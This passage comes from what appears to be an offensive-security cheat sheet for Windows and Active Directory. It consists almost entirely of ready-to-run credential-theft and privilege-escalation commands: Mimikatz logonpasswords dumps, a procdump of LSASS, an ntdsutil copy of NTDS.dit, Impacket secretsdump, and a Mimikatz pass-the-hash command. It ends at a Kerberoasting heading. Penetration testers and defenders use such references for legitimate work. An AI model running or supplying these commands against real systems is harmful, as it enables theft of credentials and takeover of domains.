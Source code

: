 - **Mimikatz (Windows)**:
    
    ```powershell
    mimikatz # sekurlsa::logonpasswords
    ```
    

#### 4.4 Dump Credentials from LSASS 

- **Mimikatz**:
    
    ```powershell
    sekurlsa::logonpasswords
    ```
    
- **Procdump (Windows)**:
    
    ```bash
    procdump64.exe -ma lsass.exe lsass.dmp
    ```
    

#### 4.5 Dump Cached Credentials 

- **Mimikatz**:
    
    ```powershell
    sekurlsa::logonpasswords /patch
    ```
    

#### 4.6 Dump NTDS.dit 

- **ntdsutil (Windows)**:
    
    ```bash
    ntdsutil "ac i ntds" "ifm" "create full C:\temp\ntds" q q
    ```
    
- **Impacket's secretsdump**:
    
    ```bash
    secretsdump.py -just-dc <domain>/<username>:<password>@<target_ip>
    ```
    

# 5. Privilege Escalation 

#### 5.1 Pass-the-Hash Attack 

- **Pass-the-Hash with Mimikatz**:
    
    ```powershell
    sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:cmd.exe
    ```
    

#### 5.2 Kerberoasting 
